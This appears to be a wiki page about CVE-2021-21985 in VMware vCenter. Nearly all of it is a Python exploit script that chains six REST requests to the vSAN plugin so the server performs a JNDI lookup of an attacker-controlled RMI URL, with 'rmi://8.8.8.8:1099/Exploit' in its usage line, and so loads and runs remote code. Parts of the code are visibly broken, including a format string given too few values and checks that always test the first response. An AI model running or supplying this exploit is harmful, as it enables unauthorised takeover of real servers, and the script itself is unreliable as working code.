 <languages   /> <translate>

截圖
----

</translate> ![](Twitter_E3CB24AUUAEl1_8.jpg "fig:Twitter_E3CB24AUUAEl1_8.jpg")

EXP
---

    import requests
    import sys
    import json
    def send_request(host,uri,json):
        try:
            req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
            return req.text
        except:
            return False
    def check_false(request):
        if request ==False or 'result' not in request:
            print("[*] No Vuln!")
            return True
    if __name__ == '__main__':
        if len(sys.argv) < 2:
            print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
            sys.exit()
        host = sys.argv[1]
        payload = sys.argv[2]
        baseuri = "ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
        uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
        headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
        stage_setTargetObject = json.loads('{"methodInput":[null]}')
        stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
        stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
        stage_setArguments = json.loads('{"methodInput":[["%s"|"%s"]]}'%payload)
        stage_prepare = json.loads('{"methodInput":[]}')
        print("[*] start init TargetObject")
        # init TargetObject
        init_request  = send_request(host,uris[0],json=stage_setTargetObject)
        if check_false(init_request):
            print("[*] init failed!")
            exit()
        # Step2 setStaticMethod
        StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
        if check_false(init_request):
            print("[*] StaticMethod init failed!")
            exit()
        # Step3 setTargetMethod
        StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
        if check_false(init_request):
            print("[*] setTarget Method failed!")
            exit()
        # Step4 setArguments
        # print(stage_setArguments)
        setArguments = send_request(host,uris[3],json=stage_setArguments)
        if check_false(init_request):
            print("[*] setArguments failstage_setArgumentsed!")
            exit()
        # Step5 prepare
        setArguments = send_request(host,uris[4],json=stage_prepare)
        if check_false(init_request):
            print("[*] stage_prepare failed!")
            exit()
        # Step6 invoke
        setArguments = send_request(host,uris[5],json=stage_prepare)
        if check_false(init_request):
            print("[*] invoke failed!")
            exit()

<translate>

參考
----

</translate> <https://github.com/xnianq/cve-2021-21985_exp/>

<https://twitter.com/_0xf4n9x_?s=21>